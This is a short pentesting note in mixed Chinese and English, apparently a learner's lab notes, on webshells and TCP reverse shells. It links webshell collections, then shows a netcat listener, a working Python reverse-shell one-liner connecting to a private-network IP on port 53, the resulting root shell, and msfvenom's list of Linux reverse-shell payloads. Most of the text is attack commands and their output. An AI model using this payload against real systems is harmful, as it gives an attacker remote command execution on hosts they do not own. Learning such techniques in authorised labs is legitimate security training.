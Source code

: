 搜索关键词`webshells github`：

[BlackArch webshells](https://github.com/BlackArch/webshells)

[tennc webshell](https://github.com/tennc/webshell)

[danielmiessler SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)

There are two kinds of TCP shells, bind and reverse shells.

[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

终端1：

```
└─# nc -klvp 53         
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
```

终端2：

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.248.148",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

终端1：

```
└─# nc -klvp 53         
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::53
Ncat: Listening on 0.0.0.0:53
Ncat: Connection from 192.168.248.148.
Ncat: Connection from 192.168.248.148:59230.
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# 
```

```
msfvenom --list payloads | grep x64 | grep linux | grep reverse                           
    linux/x64/meterpreter/reverse_tcp                                  Inject the mettle server payload (staged). Connect back to the attacker
    linux/x64/meterpreter_reverse_http                                 Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_https                                Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/meterpreter_reverse_tcp                                  Run the Meterpreter / Mettle server payload (stageless)
    linux/x64/pingback_reverse_tcp                                     Connect back to attacker and report UUID (Linux x64)
    linux/x64/shell/reverse_tcp                                        Spawn a command shell (staged). Connect back to the attacker
    linux/x64/shell_reverse_ipv6_tcp                                   Connect back to attacker and spawn a command shell over IPv6
    linux/x64/shell_reverse_tcp                                        Connect back to attacker and spawn a command shell
```
